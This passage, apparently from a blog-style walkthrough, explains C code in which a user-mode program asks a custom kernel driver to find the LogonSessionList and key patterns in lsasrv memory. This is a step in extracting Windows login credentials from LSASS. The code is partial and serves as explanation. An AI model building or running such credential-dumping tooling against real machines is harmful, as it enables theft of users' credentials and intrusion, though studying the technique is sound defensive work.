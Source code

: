 ```c
struct Patterns {
	PVOID pLogonSessionListPattern;
	PVOID pKeysPattern;
};
...
driver::Patterns bytePatterns = { 0 };
bytePatterns = driver::findLogonSessionList(hDriver, pLsasrv, pEnd);
```

We create a structure to hold two patterns since I both of my pattern searches at the same time, we'll come back to the keys pattern later, but then I end up calling the `findLogonSessionList` function.

This part is actually fairly straight forward:

```c
	Patterns findLogonSessionList(HANDLE hDriver, PVOID pBase, PVOID pEnd) {
		Request req;
		req.pBase = pBase;
		req.pEnd = pEnd;

		printf("Base: 0x%p\n", req.pBase);
		printf("End : 0x%p\n", req.pEnd);

		req.Patterns = { 0 };
		DeviceIoControl(hDriver, codes::lssl, &req, sizeof(req), &req, sizeof(req), nullptr, nullptr);
		if (req.Patterns.pKeysPattern == NULL || req.Patterns.pLogonSessionListPattern == NULL) {
			printf("DeviceIoControl error getting pLssl,,.,.\n");
		}
		printf("Pattern LogonSessionList @ 0x%p\nPattern Keys @ 0x%p\n", req.Patterns.pLogonSessionListPattern, req.Patterns.pKeysPattern);
		return req.Patterns;
	}
```

We're retruning that `Patterns` struct displayed just above,  The base and and end address come from our module enumeration earlier, and the patterns we're searching for are stored in the driver.

On this side of the kernel, all we do is send an IOCTL to our driver and wait for pointers back.

### Kernel Code

We send the IOCTL to our driver, now we need to search for the pattern.  Like mentioned above I'm storing the patterns in the driver:

```c
struct Patterns {
	PVOID LogonSessionListPattern;
	PVOID KeysPattern;
};
```


First we define a function that accepts an upper and a lower bound for memory to search for the patterns.
